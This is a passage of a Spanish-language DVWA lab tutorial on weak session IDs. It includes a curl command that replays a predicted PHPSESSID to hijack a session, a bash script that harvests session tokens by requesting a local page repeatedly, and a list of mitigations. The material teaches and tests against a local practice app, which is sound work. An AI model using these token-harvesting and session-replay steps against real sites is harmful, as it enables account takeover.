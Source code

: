 - Si la app acepta el ID que tú fijas (sin regenerarlo al login), es vulnerable a fixation.
- Si regenera (te devuelve Set-cookie con uno nuevo), bien.

2. Hijacking (solo educativo): si hubieras predicho un ID válido de otra sesión, podrías:

```bash
curl -I -s \
  -b "PHPSESSID=ID_PREDICHO" \
  'http://127.0.0.1:8080/index.php'
```

Si devuelve contenido autenticado, es crítico.

DVWA en High debería regenerar IDs al autenticarse y no aceptar valores inyectados.

## 6 Mitigaciones 

- Generar IDs con CSPRNG (seguro criptográficamente).

- Regenerar ID tras login/privilege change (session_regenerate_id(true)).

- Activar session.use_strict_mode=1 (PHP).

- Cookies con HttpOnly, Secure, SameSite=Lax/Strict.

- Expirar y rotar sesiones; atarlas a IP/UA con cautela.

- Monitorear colisiones e intentos anómalos.

## 7 Scripts 

harvest_wekids.sh

```bash
#!/usr/bin/env bash
set -euo pipefail
COOKIE=${COOKIE:-'PHPSESSID=TUCOKIEAQUI; security=low'}
URL=${URL:-'http://127.0.0.1:8080/vulnerabilities/weak_id/'}
N=${N:-1000}

mkdir -p pages
: > tokens_raw.txt

for i in $(seq 1 "$N"); do
  html=$(curl -s -b "$COOKIE" "$URL")
  printf '%s\n' "$html" > "pages/page_$i.html"
  printf '%s\n' "$html" \
    | grep -Eo '\b[0-9a-fA-F]{32}\b' \
    || printf '%s\n' "$html" | grep -Eo '\b[A-Za-z0-9+/=]{20,}\b' \
    || printf '%s\n' "$html" | grep -Eo '\b[0-9]{6,}\b' \
    >> tokens_raw.txt
  (( i % 100 == 0 )) && echo "[*] $i"
done

grep -E '\S' tokens_raw.txt > tokens.txt
echo "[*] Capturados: $(wc -l < tokens.txt)  Únicos: $(sort tokens.txt | uniq | wc -l)"
```
